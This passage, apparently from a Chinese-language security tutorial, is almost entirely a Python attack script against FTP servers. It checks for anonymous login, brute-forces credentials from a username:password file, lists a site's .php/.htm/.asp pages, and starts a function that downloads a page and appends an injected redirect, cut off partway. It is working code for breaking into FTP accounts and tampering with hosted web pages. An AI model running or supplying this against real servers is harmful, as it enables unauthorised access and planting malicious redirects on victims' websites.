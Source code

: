 ### 完整的代码 DEMO

虽然很多余，但还是把整个流程打一遍吧

```python
import ftplib
import optparse
import time

def anon_login(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login("anonymous", "me@your.com")
        print("[*] {} FTP Anonymous Logon Succeeded.".format(hostname))
        ftp.quit()
        return True
    except Exception as e:
        print("[-] {} FTP Anonymous Logon Failed.".format(hostname))
        return False

def brute_login(hostname, password_file):
    pf = open(password_file, "r")
    for line in pf.readlines():
        time.sleep(1)
        user_name = line.split(":")[0]
        password = line.split(":")[1].strip("\r\n")
        print("[+] Trying: {}/{}".format(user_name, password))

        try:
            ftp = ftplib.FTP(hostname)
            ftp.login(user_name, password)
            print("[*] {} FTP Logon Succeeded: {}/{}".format(hostname, user_name, password))
            ftp.quit()
            return user_name, password
        except Exception as e:
            pass
    print("[-] Could not brute force FTP credentials.")
    return None, None

def return_default(ftp):
    dir_list = list()
    try:
        dir_list = ftp.nlst()
    except:
        print("[-] Could not list directory contents.")
        print("[-] Skipping To Next Target.")
        return dir_list

    ret_list = list()
    for file_name in dir_list:
        fn = file_name.lower()
        if ".php" in fn or ".htm" in fn or ".asp" in fn:
            print("[+] Found default page: {}".format(file_name))
        ret_list.append(file_name)

    return ret_list

def inject_page(ftp, page, redirect):
    f = open("{}.tmp".format(page), "w")
    ftp.retrlines("RETR {}".format(page), f.write)
    print("[+] Downloaded Page: {}".format(page))
    f.write(redirect)
    f.close()

```